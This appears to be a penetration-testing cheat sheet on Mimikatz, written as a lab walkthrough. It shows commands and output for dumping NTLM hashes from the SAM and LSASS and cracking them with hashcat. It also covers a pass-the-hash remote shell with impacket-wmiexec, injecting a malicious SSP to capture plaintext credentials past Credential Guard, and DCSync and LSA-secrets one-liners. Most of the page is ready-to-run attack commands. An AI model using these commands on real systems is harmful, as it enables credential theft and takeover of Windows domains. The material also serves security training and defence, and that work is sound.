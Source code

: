```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Mimikatz

Each command in `mimikatz` consists of a module and a command delimited by two colons (`module::command`).&#x20;

## SAM

**NTML** stores unsalted hashed passwords in **SAM** database (`c:\windows\system32\config\sam`) which cannot be copied while the Windows OS is running.  **Local Security Authority System (LSASS)** runs with `SYSTEM` privileges and caches NTLM hashes.

1. We can extract the NTML hashes if we have `Administrator` / `SYSTEM` privileges and the `SeDebugPrivilege` access right enabled. We can enable the latter with `privilege::debug`.
2. We can use `token::elevate` module to elevate our privileges to `SYSTEM` if we have the `SeImpersonatePrivilege` access right. All local `administrators` have it by default.

{% tabs %}
{% tab title="1. SeDebugPrivilege" %}
```powershell
mimikatz # privilege::debug
Privilege '20' OK
```
{% endtab %}

{% tab title="2. PrivEsc" %}
{% code overflow="wrap" %}
```powershell
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

660     {0;000003e7} 1 D 41815          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;001035c2} 2 F 1710035     MARKETINGWK01\offsec    S-1-5-21-4264639230-2296035194-3358247000-1001  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 1981690     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```
{% endcode %}
{% endtab %}

{% tab title="3. Dump SAM" %}
```powershell
mimikatz # lsadump::sam
<SNIP>

RID  : 000003ea (1002)
User : nelly
  Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10

<SNIP>
```
{% endtab %}

{% tab title="4. Crack" %}
{% code overflow="wrap" %}
```bash
hashcat -m1000 nelly_ntml /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Pass-the-Hash

Unlike local account hashes which are stored in SAM, **domain hashes** are stored in memory of the Local Security Authority Subsystem Service process (`lsass.exe`).

{% tabs %}
{% tab title="1. SeDebugPrivilege" %}
```powershell
mimikatz # privilege::debug
Privilege '20' OK
```
{% endtab %}

{% tab title="2. LSASS" %}
```powershell
mimikatz # sekurlsa::logonpasswords
<SNIP>

Authentication Id : 0 ; 5468350 (00000000:005370be)
Session           : RemoteInteractive from 5
User Name         : Administrator
Domain            : CORP
Logon Server      : SERVERWK248
Logon Time        : 9/19/2024 2:08:28 AM
SID               : S-1-5-21-1711441587-1152167230-1972296030-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
         * NTLM     : 160c0b16dd0ee77e7c494e38252f7ddf
<SNIP>
```
{% endtab %}

{% tab title="3. PtH" %}
{% code overflow="wrap" %}
```bash
# with the domain's admin hash, we can perform a PtH attack.
$ impacket-wmiexec -debug -hashes :160c0b16dd0ee77e7c494e38252f7ddf CORP/Administrator@192.168.50.248
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[*] SMBv3.0 dialect used
[+] Target system is 192.168.50.248 and isFQDN is False
[+] StringBinding: SERVERWK248[64285]
[+] StringBinding: 192.168.50.248[64285]
[+] StringBinding chosen: ncacn_ip_tcp:192.168.50.248[64285]
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```
{% endcode %}
{% endtab %}
{% endtabs %}

## SSP Injection

Credential Guard uses Virtualization-Based Security (VBS) to protect credentials by isolating them in a secure environment. VBS creates protected memory regions that the OS cannot access, enforced by Virtual Trust Levels (VTLs). VTL0 hosts the regular Windows environment, while VTL1 runs critical security functions.&#x20;

When enabled, **Credential Guard** **moves credential storage from LSASS to an isolated process (`LSAISO.exe`) in VTL1, communicating with LSASS in VTL0**. This prevents tools like Mimikatz, operating in VTL0, from accessing credential data. Introduced in Windows 10 and Server 2016, it is now enabled by default on modern Windows installations, though older systems may have it disabled.

> _**Credential Guard is only designed to protect non-local users**. This means that we are still able to obtain NTLM hashes for the local users on the target machine._

If we repeat the above PtH attack, and Credential Guard is enabled, we won't be able to get the domain's `Administrator` hash. While we know the `Administrator` user of the `CORP.COM` domain has logged into this box, we can't obtain the cached hashes because **the** `LSASS` **process only has access to this information after it has been encrypted by the** `LSAISO` **process**.

{% code overflow="wrap" %}
```powershell
mimikatz # sekurlsa::logonpasswords
...
Authentication Id : 0 ; 4214404 (00000000:00404e84)
Session           : RemoteInteractive from 4
User Name         : Administrator
Domain            : CORP
Logon Server      : SERVERWK248
Logon Time        : 9/19/2024 4:39:07 AM
SID               : S-1-5-21-1711441587-1152167230-1972296030-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
           * LSA Isolated Data: NtlmHash
             KdfContext: 7862d5bf49e0d0acee2bfb233e6e5ca6456cd38d5bbd5cc04588fbd24010dd54
             Tag       : 04fe7ed60e46f7cc13c6c5951eb8db91
             AuthData  : 0100000000000000000000000000000001000000340000004e746c6d48617368
             Encrypted : 6ad536994213cea0d0b4ff783b8eeb51e5a156e058a36e9dfa8811396e15555d40546e8e1941cbfc32e8905ff705181214f8ec5c
```
{% endcode %}

To bypass Credential Guard, attackers **intercept credentials during login instead of retrieving cached ones**. Windows authentication uses the Security Support Provider Interface (SSPI) with providers like Kerberos and NTLM. By registering a malicious SSP via the registry or injecting it into LSASS, attackers can capture plaintext credentials as they pass through SSPI. Mimikatz’s `memssp` module automates this by injecting an SSP into LSASS memory, capturing credentials without writing files to disk.

```powershell
mimikatz # misc::memssp
Injected =)
```

At this point, when another user remotely connects to the machine their credentials will be captured.

```powershell
> type C:\Windows\System32\mimilsa.log
<SNIP>
[00000000:0066608e] CORP\Administrator  QWERTY123!@#
<SNIP>
```

## Other

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\administrator"'
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::secrets" "exit"'
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe privilege::debug token::elevate lsadump::secrets exit 
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="mimikatz.exe" %}
{% embed url="https://github.com/gentilkiwi/mimikatz/" %}
{% endtab %}

{% tab title="Invoke-Mimikatz.ps1" %}
{% embed url="https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1" %}
{% endtab %}

{% tab title="Guide" %}
{% embed url="https://adsecurity.org/?page_id=1821" %}
{% endtab %}
{% endtabs %}

